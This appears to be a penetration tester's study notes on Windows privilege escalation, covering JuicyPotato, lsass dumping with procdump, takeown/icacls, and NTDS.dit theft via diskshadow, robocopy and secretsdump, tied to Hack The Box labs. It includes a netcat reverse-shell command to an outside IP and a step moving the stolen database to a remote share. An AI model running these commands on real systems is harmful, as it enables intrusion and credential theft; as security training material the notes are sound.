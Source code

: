 - **tags:** #privesc #windows
- ----------------
# Windows Privileges Overview
[Privileges](https://docs.microsoft.com/en-us/windows/win32/secauthz/privileges) in Windows are rights that an account can be granted to perform a variety of operations on the local system such as managing services, loading drivers, shutting down the system, debugging an application, and more. Privileges are different from access rights, which a system uses to grant or deny access to securable objects. *User and group privileges are stored in a database and granted via an access token* when a user logs on to a system. Each time a user attempts to perform a privileged action, the system reviews the user's access token to see if the account has the required privileges, and if so, checks to see if they are enabled. Be aware that the *UAC (User Account Control)* restricts applications from running with full permissions unless necessary.
# Windows Access Tokens
*A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system*. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed. Access token are generated by the `winlogon.exe` process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the `userinit.exe` process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
## JuicyPotato - SeImpersonate - SeAssignPrimary Token
![[RottenPotato.png]]
*SeImpersonate* privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) is the *Rotten Potato* attack on steroids and can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.
- [Potato Attacks Article](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
-  [Youtube Explaination of Rotten Potato Attack](https://www.youtube.com/watch?v=8Wjs__mWOKI)
- Usage:
```shell
# start a listener
nc -lvnp 8443
# execute Juicy Potato
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
**JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards**. However, [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.
- On older systems you may want to try with [Churrasco](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/) if JuicyPotato is giving you any problems.
### Practice Labs:
- *Bounty HTB* Easy Windows Machine
- [HTB Academy Windows Privilege Escalation Juicy Potato Lab](https://academy.hackthebox.com/module/67/section/607)
# SeDebugPrivilege
To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. Users with this privilege can attach to or open any process, even a process they do not own. This user right provides access to sensitive and critical operating-system components.
**Dumping LSA Secrets**:
This privilege can be leveraged to create a memory DUMP file of the *lsass.exe* process. There are 2 different ways to accomplish such task
- [[Dumping Credentials#lsass.DMP via Task Manager|With an RDP session using the Task Manager]]
- Using [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite.
```shell
# Memory dump using procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
**Privilege Escalation to SYSTEM Account**:
- [If we land onto an account with SeDebugPrivilege we can escalte to the System Account](https://github.com/decoder-it/psgetsystem)
```powershell
tasklist /svc | findstr lsass # grab a SYSTEM PID
. .\psgetsys.ps1
ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
```
# SeTakeOwnershipPrivilege
[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to *take ownership of any "securable object"*, meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes.
- List ownership of a file:
```shell
dir /q flag.txt
```
- Take Owner-ship of file
```shell
takeown /f flag.txt 
```
- We may still not be able to read the file and need to modify the file ACL using `icacls`
```shell
icacls flag.txt # lists ACE
icacls flag.txt /grant ant:F
```
# SeBackupPrivilege
Any member of the *Backup Operators* group will be granted the *SeBackup* and *SeRestore* privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. **This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL).**
## Copying a Protected File
The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode:
```shell
# make sure you are using the BackUp Switch or it won't work
robocopy /B C:\Users\Administrator\Desktop C:\Windows\Temp\AdminDesktop\
# we can add the /E option to copy all subdirectories recursively
```
## Dumping NTDS.dit or SAM
Any user with the *SeBackupPrivilege* will be able to dump the *SAM* hashes as explained [[Dumping Credentials#Dumping Hashes from SAM|here]]. As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system and we'll be able to copy and extract its contents.
### Shadow Copy of C drive
```powershell
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
Since the `E:\` drive isn't being used, nor will be the *ntds.dit* file found inside, therefore, we can now use robocopy to copy the file and later extract its hashes with `impacket-secretsdump`:
```powershell
robocopy /R E:\Windows\NTDS C:\Windows\Temp\NTDS\ ntds.dit
net use N: \\10.10.11.12\smbFolder /user:username password
move C:\Windows\Temp\NTDS\ntds.dit N:\ntds.dit
```
```bash
# on our attacker's machine
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
# Appendix
In case we find ourselves with the required privileges but still can't take advantage of them because they are disabled we can run the following to enable them all at once:
- [EnableAllTokenPrivs.ps1](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1)
